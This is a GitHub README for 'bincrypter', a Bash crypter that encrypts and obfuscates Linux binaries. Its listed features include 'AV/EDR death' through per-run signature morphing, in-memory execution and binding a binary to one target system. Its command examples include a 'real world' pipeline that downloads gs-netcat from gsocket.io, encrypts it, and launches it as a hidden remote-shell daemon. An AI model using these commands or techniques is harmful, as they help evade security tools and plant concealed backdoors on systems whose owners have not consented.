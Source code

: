 # Privacy and copyright protection for your programs

## A Linux Binary Runtime Crypter - in BASH!

- Obfuscate & encrypt any ELF binary
- Obfuscate & encrypt any SHELL-script
- AV/EDR death: Morphing + different signature every time
- 100% in-memory. No temporary files
- Not soiling the filesystem
- Double or triple encrypt the same binary (or itself)
- Resulting binary is heavily obfuscated (`string` only shows garbage)
- Living off the Land (LotL): Only needs `/bin/sh` + `perl` + `openssl`
- Architecture agnostic: Works on x86_64, aarch64, arm6, mips, ...
- *Lock* a binary to a target system and make it fail to run anywhere else.

![exmaple](https://github.com/user-attachments/assets/c8eff8e4-f879-4017-9015-6422e03dd6ac)

Download:
```shell
curl -SsfL https://github.com/hackerschoice/bincrypter/releases/latest/download/bincrypter -o bincrypter
chmod +x bincrypter
./bincrypter -h
```

Example:
```shell
cp /usr/bin/id id
./bincrypter id
# Compressed: 68552 --> 24176 [35%]

./id
# uid=0(root) gid=0(root) groups=0(root)
```

Set a custom PASSWORD (optionally):
```shell
cp /usr/bin/id id
./bincrypter id foobar
# Compressed: 68552 --> 23860 [34%]

./id
# Enter Password: foobar
# uid=0(root) gid=0(root) groups=0(root)
```

Real world example:
```shell
curl -SsfL "https://gsocket.io/bin/gs-netcat_mini-linux-$(uname -m)" | PASSWORD="foobar" ./bincrypter  >gsnc
chmod +x gsnc
PASSWORD="foobar" GS_ARGS="-ilD -s ChangeMe" ./gsnc
```

---
Other great work:  
https://github.com/guitmz/ezuri  
https://github.com/upx/upx  
https://bitlackeys.org/#sherlocked  

---
Join the fun: https://thc.org/ops  
bsky: [@hackerschoice.bsky.social](https://bsky.app/profile/hackerschoice.bsky.social)  
Mastodon: [@thc@infosec.exchange](https://infosec.exchange/@thc)




